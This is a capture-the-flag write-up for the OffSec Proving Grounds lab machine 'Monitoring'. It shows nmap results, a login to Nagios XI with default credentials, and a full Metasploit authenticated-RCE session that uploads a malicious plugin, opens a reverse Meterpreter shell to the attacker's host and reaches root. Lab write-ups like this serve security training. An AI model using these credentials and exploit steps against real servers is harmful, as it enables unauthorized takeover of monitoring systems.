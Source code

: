 ```yaml
---
title: "Proving grounds Play: Monitoring"
layout: post
date: 2023-09-25 03:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-08T17:59:00
| Not valid after:  2030-09-06T17:59:00
| MD5:   e0671ea392c2ec73cb21de0e73dfcb66
|_SHA-1: e39cc9b6c35bb6083dd0cd25e60fcb616551da77
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 8E1494DD4BFF0FC523A2E2A15ED59D84
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
_http-title: Nagios XI
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

The port 80 is restricting the users from logging into the admin dashboard.

```text
NSP: Sorry Dave, I can't let you do that
```

## Web PORT: 443

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

Use credentials `nagiosadmin:admin` to login to the portal. The Nagios XI 5.6.0 is vulnerable to authenticated remote code execution. The foothold can be acheived by using the metasploit module.

## Foothold

```sh
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.45.233
lhost => 192.168.45.233
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.167.136
RHOSTS => 192.168.167.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.45.233:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045348 bytes) to 192.168.167.136
[*] Meterpreter session 1 opened (192.168.45.233:4444 -> 192.168.167.136:51442) at 2023-09-25 07:06:23 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > shell
whoami
root
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).